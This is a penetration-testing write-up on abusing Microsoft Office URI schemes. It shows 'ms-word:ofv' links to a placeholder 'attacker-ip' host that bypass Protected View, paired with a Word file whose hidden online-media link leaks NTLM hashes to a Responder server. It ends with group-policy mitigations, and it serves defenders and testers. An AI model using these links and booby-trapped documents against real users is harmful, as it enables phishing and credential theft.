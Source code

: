 # INTRODUCTION

I was recently reading up on [Microsoft GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) as part of some testing I was doing related to Microsoft Teams and stumbled upon some interesting Microsoft documentation:
[Office URI Schemes | Microsoft Learn](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes) 

The document outlines how Office URIs can be used to open Office application and files in various ways that only requires a click or two from a user. These methods are valuable for Pentesters and System Administrators to understand as they could be abused to target vulnerable users in phishing scenarios (example below).

Microsoft understands that these URI's could be used in nefarious ways, and they have implemented some protections to prevent documents from being opened from untrusted sources, or warn users that the file they are trying to open is coming from an untrusted source.
# TESTING THE METHODS

## PROTECTIONS
Below are two examples of "unsafe" methods that Microsoft Office tries to prevent.

**UNC PATH**
When trying to access an Office URI link containing a UNC path to a file at an untrusted location, Microsoft Word blocks the file from opening and displays this error message:

`ms-word:ofe|u|//attacker-ip/document.docx`

![images/1.png](images/1.png)

**The file:// URI**
When using the file:// URI, Word *will* open, but the user gets prompted for warnings, and if Responder is running, they will be asked to enter their credentials. For most users, this would be very suspicious behavior:

`ms-word:ofe|u|file://attacker-ip/document.docx`

![images/2.png](images/2.png)

## THE WORK AROUNDS
When using simple http (no certificate required!) Microsoft will open the document with just a banner telling the user that the file is in "PROTECTED VIEW" and that to enable editing, the user just has to click a single button!

`ms-word:ofe|u|http://attacker-ip/job_description.docx`

![images/3.png](images/3.png)
When using this method, the payload word document does not send NTLM hashes to the attacker server, until the user clicks the Enable Editing button. Additionally, the banner might make some users wary if the file they just opened was from an untrusted source.

However, this "PROTECTED VIEW" will only be applied under certain conditions, such as files with a MOTW, and specifically when the file is opened for the purposes of editing.
## BYPASSING PROTECTED VIEW

Until now, all of the links we have used, contain the letters "ofe", this stands for `Open File for Editing`, if we replace this with "ofv" (`Open File for Viewing`) the document is opened in Read Only mode. This bypasses the Protected View in Word and the user hash is sent to the attacker server:

`ms-word:ofv|u|http://attacker-ip/questions_form.docx`

![images/4.png](images/4.png)
And in Responder we have captured some hashes:
![images/5.png](images/5.png)

## ADDITIONAL PROTECTIONS/WARNINGS

Something to consider with these Office URIs is how they are sent to a user. 
A few examples:
 - Microsoft Teams does **not** allow Office URIs as links sent in messages. 
 - Clicking the link in most browsers prompts the user to confirm they want to open Word, Excel, etc.
 - Office products such as Word, Excel, and Outlook do not warn or prompt the user when a link is clicked that opens a document (Thanks Microsoft!).
 - Other products such as PDF viewers vary. Sometimes a warning or prompt is provided, sometimes Office just opens.

# THE PAYLOAD
Okay, you might be wondering "why on earth does opening this document send my NTLM hash to the attacker server?!". This is a valid question, and the answer is that it is due to a "feature" that Microsoft claims they will not fix. *Inserting Online Media.*

This is something I was made aware of when a colleague sent me video of a [talk by Sam Shute](https://www.youtube.com/watch?v=zp5Ds2FYnkU). I highly recommend giving it a watch, in the video he details a method where he inserts media from the web, sets the size to 0x0 pixels and hides it in the footer.
He then saves the document as a .zip file, extracts the contents, and modifies the link to the online image to point to his Responder server with the file:// URI . Save the file, compress the files back into a zip, and rename to .docx.

When the file is opened, MS Word finds the "Online Media" link, and immediately goes out to track down the image using the currently logged in user's account credentials. The user is never told that their credentials were sent out by Word, or that the image failed to load.


# PREVENTION
Probably the most effective way of preventing this type of hash theft is by limiting outbound NTLM traffic through group policy and firewall rules.
The policies you should configure are:

- Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options -> Network security: Restrict NTLM: Outgoing NTLM traffic to remote servers.
  - Set this to “Deny All”.

  ![images/6.png](images/6.png)

- Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options -> Network security: Restrict NTLM: Add remote server exceptions for NTLM authentication.
  - Add any trusted servers in your environment that require NTLM traffic.

  ![images/7.png](images/7.png)